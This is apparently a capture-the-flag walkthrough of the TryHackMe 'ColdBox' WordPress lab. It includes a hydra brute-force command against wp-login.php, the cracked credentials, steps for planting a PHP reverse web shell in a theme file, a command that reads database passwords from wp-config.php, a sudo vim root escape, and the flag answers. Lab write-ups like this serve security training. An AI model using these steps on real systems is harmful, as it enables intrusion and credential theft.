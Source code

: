 # ColdBox

<div align="left">

<figure><img src="../.gitbook/assets/image (11) (1).png" alt="" width="168"><figcaption><p><a href="https://tryhackme.com/room/colddboxeasy">https://tryhackme.com/room/colddboxeasy</a></p></figcaption></figure>

</div>

🔗 [ColdBox](https://tryhackme.com/room/colddboxeasy)

### Task 1 - Deploy the machine

🎯 Target IP: `10.10.100.105`

Create a directory for machine on the Desktop and a directory containing the scans with nmap.

### Task 2 - Reconnaissance

<pre class="language-bash"><code class="lang-bash">su
echo "10.10.100.105 coldbox.thm" >> /etc/hosts

mkdir thm/coldbox.thm
cd thm/coldbox.thm
mkdir {nmap,content,exploits,scripts}

# At the end of the room
# To clean up the last line from the /etc/hosts file
<strong>sed -i '$ d' /etc/hosts
</strong></code></pre>

I prefer to start recon by pinging the target, this allows us to check connectivity and get OS info.

```bash
ping -c 3 coldbox.thm
PING coldbox.thm (10.10.100.105) 56(84) bytes of data.
64 bytes from coldbox.thm (10.10.100.105): icmp_seq=1 ttl=63 time=65.4 ms
64 bytes from coldbox.thm (10.10.100.105): icmp_seq=2 ttl=63 time=61.1 ms
64 bytes from coldbox.thm (10.10.100.105): icmp_seq=3 ttl=63 time=60.5 ms
```

Sending these three ICMP packets, we see that the Time To Live (TTL) is \~64 secs. this indicates that the target is a \*nix, while Windows systems usually have a TTL of 128 secs.

Of course, start to check information scanning open ports:

```bash
nmap --open -p0- -n -Pn -vvv --min-rate 5000 coldbox.thm -oG nmap/port_scan
```

```bash
PORT     STATE SERVICE REASON
80/tcp   open  http    syn-ack ttl 63
4512/tcp open  unknown syn-ack ttl 63
```

<table><thead><tr><th width="154.99999999999997">command</th><th>result</th></tr></thead><tbody><tr><td>sudo</td><td>run as root</td></tr><tr><td>sC</td><td>run default scripts</td></tr><tr><td>sV</td><td>enumerate versions</td></tr><tr><td>A</td><td>aggressive mode</td></tr><tr><td>T4</td><td>run a bit faster</td></tr><tr><td>oN</td><td>output to file with nmap formatting</td></tr></tbody></table>

It looks like there are 2 open ports on the machine: 80, 4512

Now, we need to search which services are running on open ports:

```bash
nmap -p80,4512 -n -Pn -vvv -sCV --min-rate 5000 coldbox.thm -oN nmap/open_port
```

```bash
PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-title: ColddBox | One more machine
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
4512/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4e:bf:98:c0:9b:c5:36:80:8c:96:e8:96:95:65:97:3b (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDngxJmUFBAeIIIjZkorYEp5ImIX0SOOFtRVgperpxbcxDAosq1rJ6DhWxJyyGo3M+Fx2koAgzkE2d4f2DTGB8sY1NJP1sYOeNphh8c55Psw3Rq4xytY5u1abq6su2a1Dp15zE7kGuROaq2qFot8iGYBVLMMPFB/BRmwBk07zrn8nKPa3yotvuJpERZVKKiSQrLBW87nkPhPzNv5hdRUUFvImigYb4hXTyUveipQ/oji5rIxdHMNKiWwrVO864RekaVPdwnSIfEtVevj1XU/RmG4miIbsy2A7jRU034J8NEI7akDB+lZmdnOIFkfX+qcHKxsoahesXziWw9uBospyhB
|   256 88:17:f1:a8:44:f7:f8:06:2f:d3:4f:73:32:98:c7:c5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKNmVtaTpgUhzxZL3VKgWKq6TDNebAFSbQNy5QxllUb4Gg6URGSWnBOuIzfMAoJPWzOhbRHAHfGCqaAryf81+Z8=
|   256 f2:fc:6c:75:08:20:b1:b2:51:2d:94:d6:94:d7:51:4f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE/fNq/6XnAxR13/jPT28jLWFlqxd+RKSbEgujEaCjEc
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Task 3 - User flag?

Then we can start to see website (port 80):

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

we can see that's a wordpress web site, then we can try to see page source for checking information disclosure.

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

but we don't find precious info.

Another good thing to do, is find hidden paths on website using gobuster

```
gobuster dir -u coldbox.thm -w /usr/share/wordlists/dirb/common.txt
```

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Very good, we can start to check these web dir:

/hidden/

<figure><img src="../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Very good, there're precious info about usernames: C0ldd, Hugo and Philip.

We can confirm it watching error message at login in a default login path for wordpress: /wp-admin/

<figure><img src="../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Finally the's another good info

<figure><img src="../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If we don't waste time, we can use wpscan to find user list, but we'll take it if we take results with our three users, then try to login with C0ldd/Hugo/Philip:password123 (what we've see in the hidden path).

Nothing to do, we need to use brute force attack.

Then, we save them in a file called users.txt, and run hydra with a password wordlist to take a brute force attack:

```bash
echo "C0ldd\nHugo\nPhilip" > users.txt
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt coldbox.thm -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```

<figure><img src="../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
C0ldd:9876543210
{% endhint %}

Now we can use this credentials to log in wordpress and ssh.

<figure><img src="../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

Check user list, to see them and theirs role/permissions:

<figure><img src="../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

Very good, C0ldd is administrator.

Now, we need to access at machine using web shell, find it on our kali web-shells folder or use pentester monkey website:

<figure><img src="../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

We need to edit it using our credentials (LHOST and LPORT):

<div align="left">

<figure><img src="../.gitbook/assets/image (68).png" alt=""><figcaption></figcaption></figure>

</div>

and upload it on media library page:

<figure><img src="../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

But, trying to change extension, upload doesn't work.

<figure><img src="../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

Then, we can try to use wordpress themes or plugins how vector to inject our web-shell.

Starting with themes, we edit header.php page in the twentyfifteen theme using the same php web-shell:

<figure><img src="../.gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>

Update file, run netcat listener on the same port '1234':

<div align="left">

<figure><img src="../.gitbook/assets/image (70).png" alt=""><figcaption></figcaption></figure>

</div>

Go to: [http://coldbox.thm/wp-content/themes/twentyfifteen/header.php](http://coldbox.thm/wp-content/themes/twentyfifteen/header.php)

<figure><img src="../.gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>

We can upgrade this to a fully interactive shell by running:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

and retrieve credentials inside wp-config.php file.

```bash
cat /var/www/html/wp-config.php | grep "DB_USER"
#define('DB_USER', 'c0ldd');
cat /var/www/html/wp-config.php | grep "DB_PASSWORD"
#define('DB_PASSWORD', 'cybersecurity');
su c0ldd #inser psw and read flag.
```

we know credential for access how c0ldd user and read user.txt flag

<details>

<summary>🚩 Flag 1 (user.txt)</summary>

RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==

</details>

### Task 4 - Root flag?

We can do sudo -l command to discover user's permissions.

<figure><img src="../.gitbook/assets/image (72).png" alt=""><figcaption></figcaption></figure>

We see that c0ldd user has root permissions for these commands, we can use gtfobins to find them.

[https://gtfobins.github.io/gtfobins/vim/](https://gtfobins.github.io/gtfobins/vim/) using vim sudo command below, we obtain a root permission:

```bash
sudo vim -c ':!/bin/sh'
```

<figure><img src="../.gitbook/assets/image (73).png" alt=""><figcaption></figcaption></figure>

spawn /bin/sh to use shell:

<div align="left">

<figure><img src="../.gitbook/assets/image (75).png" alt=""><figcaption></figcaption></figure>

</div>

Well done! Root flag found!

<details>

<summary>🚩 Flag 2 (root.txt)</summary>

wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=

</details>
